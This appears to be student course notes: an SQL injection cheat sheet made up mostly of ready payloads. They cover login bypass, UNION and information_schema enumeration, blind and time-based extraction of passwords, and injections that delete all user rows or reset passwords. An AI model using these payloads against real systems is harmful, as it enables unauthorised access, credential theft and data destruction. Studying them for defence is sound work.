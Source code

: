 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```
- Using LIMIT to limit number of rows to display
```
1' union select 1,column2,column3 from table_name LIMIT 1; -- - 
```
- Using OFFSET:
```
1' union select 1,column2,column3 from table_name OFFSET 3; -- - 
```
- Using CONCAT to add two strings together
```
1' union select concat("hello", "world")
```
- Using the CHAR function to convert ASCII values to character values
```
PRINT 'a' + CHAR(9)  + 'b' -- horizontal tab 
PRINT 'a' + CHAR(10) + 'b' -- line feed 
PRINT 'a' + CHAR(11) + 'b' -- vertical tab 
PRINT 'a' + CHAR(13) + 'b' -- carriage return
```

- Attacking with IF and SUBSTRNG statements
> SUBSTRING() extracts a character from a string via its index

```
0' or userid=if([condition],'1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='a','1','0'); -- - 
0' or userid=if((select substr(password,1,1) from user where userid='1')='b','1','0'); -- - 

1' or userid=if((select substr(password,1,1) from user where userid='1')='a',sleep(0.3),'0'); -- - 
1' or userid=if((select substr(password,1,1) from user where userid='1')='abc',sleep(0.3),'0'); -- - 
```

**More attack scenarios:**
- `delete from user where userid = '${userid}'`
```
delete from user where userid = '' or 1=1;-- - '${userid}';
```
- `update user set age='${age}' where userid = '${userid}'`
```
update user set age='10', password='123';-- - '${age}' where userid='${userid}';
```